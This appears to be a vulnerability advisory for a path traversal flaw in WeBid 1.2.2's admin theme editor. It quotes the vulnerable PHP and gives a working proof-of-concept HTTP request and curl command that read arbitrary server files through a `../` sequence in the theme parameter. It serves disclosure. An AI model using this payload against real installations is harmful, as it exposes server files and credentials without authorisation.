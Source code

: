 # A Path Traversal vulnerability in `file_get_contents` Function of `/admin/theme.php` File (WeBid 1.2.2 version)

## 0x01 Affected version

vendor: https://github.com/renlok/WeBid

version: <=1.2.2

php version: 7.x

## 0x02 Vulnerability description

A Path Traversal (CWE-22) in `admin/theme.php` file of WeBid allows remote attackers to uses external input from the `theme` parameter to construct a pathname that is intended to identify a file or directory that is located underneath a restricted parent directory. This allows you to read any file from any location on the operating system.

```php
if (isset($_POST['file']) && !empty($_POST['theme']))
{
	$theme_path = $theme_root . '/' . $_POST['theme'];
	if ($_POST['theme'] != 'CVS' && is_dir($theme_path) && substr($_POST['theme'], 0, 1) != '.')
	{
		$edit_file = true;
		$filename = $_POST['file'];
		$theme = $_POST['theme'];
		$filecontents = htmlentities(file_get_contents($theme_path . '/' . $filename));
	}
}
```

The vulnerable code snippet is shown above. Because the `theme` parameter is unrestricted, it is also possible to use the server side to get the file information of the corresponding directory, including the file content. The corresponding PoC is as follows:

```
POST /WeBid-1.2.1/admin/theme.php HTTP/1.1
Host: 172.16.119.146
Content-Length: 75
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=0me7tniqbqltu0jo622cl9jqe6
Connection: close

file=flag&theme=/../../../../../&csrftoken=f514194228c4c8561ccc9542abcf0289
```

You can also use the following curl command to verify the vulnerability

```
curl -i -s -k -X $'POST' \
    -H $'Host: 172.16.119.146' -H $'Content-Length: 75' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Connection: close' \
    -b $'PHPSESSID=0me7tniqbqltu0jo622cl9jqe6' \
    --data-binary $'file=flag&theme=/../../../../../&csrftoken=f514194228c4c8561ccc9542abcf0289' \
    $'http://172.16.119.146/WeBid-1.2.1/admin/theme.php'
```



![](./media/16638137590308/16638213883564.jpg)

### 0x03 Acknowledgement

Ez Wang, W Xie, Yf Gao, Zh Wang, Lj Wu